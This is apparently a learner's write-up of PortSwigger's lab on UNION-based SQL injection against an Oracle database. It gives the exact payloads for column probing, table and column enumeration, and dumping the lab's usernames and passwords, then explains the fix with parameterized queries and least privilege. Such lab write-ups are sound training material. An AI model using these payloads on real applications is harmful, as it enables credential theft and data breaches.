




## LAB-6 SQL INJECTION ATTACK, LISTING THE DATABASE CONTENTS ON ORACLE

## LAB : [PortSwigger Lab 6 Link](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

## What?

UNION-based SQL Injection in an **Oracle** database allowing full schema
enumeration and credential extraction. The attacker can list tables, discover
columns, and dump usernames/passwords from the application database.

## Where?

* **Page:** `/filter` (product listing)
* **Method:** `GET`
* **Parameter:** `category` (query string)
* **No auth required**

## How did I find it?

Intercepted the category request, tested `category='` → error confirmed SQL
context. The page displays product data in multiple fields, making UNION
extraction viable.

## How did I verify it?

**Step 1 — Confirm columns (Oracle syntax):**

`' UNION SELECT 'abc','def' FROM dual--`

→ Confirmed **2 text columns**. `FROM dual` is required in
Oracle for literal selects.

**Step 2 — List tables (Oracle):**

`' UNION SELECT table_name,NULL FROM all_tables--`

→ Found `USERS_FUBXOH` among Oracle system tables.

**Step 3 — List columns (Oracle):**

`' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_FUBXOH'--`

→ Found `email`, `password_hplyly`, `username_umybtl`

**Step 4 — Dump credentials:**

`' UNION SELECT username_umybtl,password_hplyly FROM USERS_FUBXOH--`

→ Extracted all credentials including administrator
password.

## Why does it work?

The backend query:

`SELECT * FROM products WHERE category = 'Gifts'`

With injection becomes:

`SELECT * FROM products WHERE category = '' UNION SELECT username_umybtl,password_hplyly FROM USERS_FUBXOH--`

* Oracle's `all_tables` and `all_tab_columns` are metadata views equivalent to `information_schema` in MySQL/PostgreSQL
* `FROM dual` is Oracle's dummy table required when selecting literal values or expressions without a real table
* The app DB user has read access to both metadata views and the user credentials table
* `UNION` merges attacker data into the product listing output

## What can an attacker do?

* Map entire Oracle schema using `all_tables`, `all_tab_columns`, `all_objects`
* Dump any accessible table (users, orders, payment data, PII)
* Steal credentials and authenticate as administrator or any user
* Escalate to account takeover, data breach, or further internal pivoting

## What are the conditions/limitations?

* **Unauthenticated** — anyone can reach the filter
* Must match **exact column count** (2) and **compatible data types**
* **Oracle-specific syntax** required: `FROM dual` for probes, `all_tables`/`all_tab_columns` for enumeration
* Table/column names had **random suffixes** (`_FUBXOH`, `_hplyly`, `_umybtl`) — anti-guessing defense
* The app DB user must have privileges to read `all_tables` and `all_tab_columns`

## How should it be fixed?

**Primary:** Use **parameterized queries** so category is bound as data,
never concatenated.

**Defense-in-depth:**

* Restrict Oracle DB user privileges — grant only necessary table access, revoke `SELECT ANY DICTIONARY` or `SELECT_CATALOG_ROLE` if not needed
* Store passwords with strong hashing (bcrypt/Argon2) — though in this lab they appeared plaintext or weakly hashed
* Implement WAF rules to detect UNION, `all_tables`, `all_tab_columns`, and schema enumeration patterns

## What did I learn?

Oracle's metadata views are **different** from MySQL/PostgreSQL — `all_tables`
instead of `information_schema.tables`, `all_tab_columns` instead of
`information_schema.columns`. I also confirmed that `FROM dual` is mandatory for
any literal SELECT in Oracle, including column-count probes. The random suffixes
on table/column names reinforced that **enumeration beats guessing** on
every database platform.

## What was the key obstacle?

**Oracle syntax differences.** Unlike MySQL/PostgreSQL/MSSQL, Oracle
requires `FROM dual` for literal selects and uses `all_tables`/`all_tab_columns`
instead of `information_schema`. I had to adapt my enumeration payloads to
Oracle's specific catalog views. This lab proved that **knowing the DBMS type
changes your entire payload dictionary** — the core technique (UNION
enumeration) is the same, but the system tables and syntax rules are completely
different.
